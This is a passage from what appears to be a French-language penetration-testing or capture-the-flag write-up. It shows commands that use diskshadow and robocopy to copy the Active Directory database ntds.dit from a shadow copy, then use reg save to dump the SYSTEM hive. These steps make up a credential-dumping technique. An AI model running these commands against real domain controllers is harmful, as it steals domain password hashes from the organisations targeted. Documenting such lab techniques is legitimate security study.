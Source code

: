 Créer un dossier dans C:\temp et upload le fichier, puis utiliser diskshadow pour créer une copie du disque C: en Z: et enfin utiliser robocopy du disque Z: vers le répertoire temp.

```
cd C:\Temp
upload luks.dsh
diskshadow /s luks.dsh
robocopy /b z:\windows\ntds . ntds.dit
```

![](img/robocopy.png)

Maintenant que l'on récupéré la base ntds.dit, on peut récupérer la ruche SYSTEM

```
reg save hklm\system c:\temp\SYSTEM
```

![](img/system_hive.png)
